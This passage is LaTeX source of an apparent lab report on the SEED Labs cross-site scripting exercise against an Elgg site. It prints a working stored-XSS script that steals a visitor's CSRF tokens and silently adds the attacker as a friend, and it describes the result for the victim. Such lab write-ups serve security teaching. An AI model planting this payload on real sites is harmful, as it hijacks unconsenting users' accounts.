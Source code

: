 \documentclass[12pt]{article}
\begin{document}
     \begin{figure}[H]
         \centering
         \includegraphics[width=\textwidth]{Images/ss6.png}
         \caption{Current Session Owner Information}
         \label{fig:ss6}
     \end{figure}

We then place the following in Samy's ``About Me'' in ``Edit HTML'' format:

\begin{verbatim}
<script type="text/javascript">
    window.onload = function () {
        var Ajax = null;
        var ts = elgg.security.token.__elgg_ts; // Time Stamp
        var token = elgg.security.token.__elgg_token; // Security Token
        var myID = 59; // User ID of the attacker (Samy)
        var userID = elgg.session.user.guid; // ID of the visitor

        // If Samy is visiting his own profile, no attack should happen
        if (userID == myID) return;

        var sendurl = `/action/friends/add?friend=${myID}&__elgg_ts=${ts}&__elgg_token=${token}&__elgg_ts=${ts}&__elgg_token=${token}`;

        // Create and send Ajax request to add friend
        Ajax = new XMLHttpRequest();
        // Last boolean value is for asynchronous request making
        Ajax.open("GET", sendurl, true);
        Ajax.setRequestHeader("Host", "www.seed-server.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send();
    };
</script>
\end{verbatim}
After this, when Alice visits Samy's profile, the attack is executed with the following request being sent:
     \begin{figure}[H]
         \centering
         \includegraphics[width=\textwidth]{Images/ss7.png}
         \caption{GET Request sent as a result of the attack}
         \label{fig:ss7}
     \end{figure}
On reload, we can see that, Samy is now Alice's friend.
     \begin{figure}[H]
         \centering
         \includegraphics[width=0.7\textwidth]{Images/ss1.png}
         \caption{Samy gets added as Alice's friend}
         \label{fig:ss1}
     \end{figure}
\end{document}
